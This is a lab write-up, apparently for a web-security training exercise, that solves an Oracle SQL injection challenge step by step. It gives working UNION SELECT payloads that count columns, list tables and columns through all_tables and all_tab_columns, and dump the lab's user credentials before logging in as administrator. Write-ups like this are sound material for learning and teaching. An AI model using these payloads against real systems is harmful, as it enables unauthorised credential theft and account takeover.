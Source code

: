 # Lab: SQL injection attack, listing the database contents on Oracle

This lab demonstrates a SQL injection attack on an Oracle-based database to retrieve and enumerate database contents and eventually login as an administrator.

---

## 🧪 Lab Objective

> The application contains a SQL injection vulnerability in the product category filter. You must:
- Determine the number of columns.
- Find the table storing usernames and passwords.
- Identify the column names.
- Dump credentials.
- Log in as `administrator`.

---

## 🛠️ Steps to Solve

### 1️⃣ Access the Lab  
➡️ Open the lab in browser and intercept the first category request.  
📸 `1-access-lab.png`

---

### 2️⃣ Open Any Category  
➡️ Click on the **Gifts** category to trigger a vulnerable GET request.  
📸 `2-click-category.png`

---

### 3️⃣ Determine Number of Columns  
➡️ Send to Repeater:  
```
'+UNION+SELECT+'abc','def'+FROM+dual--
```  
This confirms the query accepts **two columns**, both `text`.  
📸 `3-column-test.png`

---

### 4️⃣ List All Tables  
➡️ Modify request as:  
```
'+UNION+SELECT+table_name,NULL+FROM+all_tables--
```  
Look for a table resembling user data.  
📸 `4-list-tables.png`  
We find:  
```
APP_USERS_AND_ROLES  
USERS_WENIEM ✅  
```

---

### 5️⃣ List All Columns  
➡️ Target: `USERS_WENIEM`  
```
'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_WENIEM'--
```  
📸 `5-list-tables.png`

---

### 6️⃣ Identify Username and Password Columns  
➡️ Found:
```
USERNAME_RLWBCW  
PASSWORD_UWGRAH
```  
📸 `6-list-columns.png`

---

### 7️⃣ Fetch Credentials  
➡️ Payload:  
```
'+UNION+SELECT+USERNAME_RLWBCW,+PASSWORD_UWGRAH+FROM+USERS_WENIEM--
```  
📸 `7-send-credentials-request.png`

---

### 8️⃣ View Usernames and Passwords  
Check browser or response:  
```
administrator : t4llylzb9mk1w3s0bdxy  
carlos       : gx8j89rvjj8xpl49ysbi  
wiener       : w26hixogrmm6fxj5pvcu  
```  
📸 `8-fetch-credentials.png`

---

### 9️⃣ Log in as Administrator  
➡️ Use the credentials on login form.  
📸 `9-lab-solved.png`

---

## 🧾 Summary

This lab showcased:
- Oracle-specific syntax using `FROM dual`
- Use of `all_tables` and `all_tab_columns` views
- Dumping credentials via **UNION SELECT**

✅ **Lab Solved Successfully**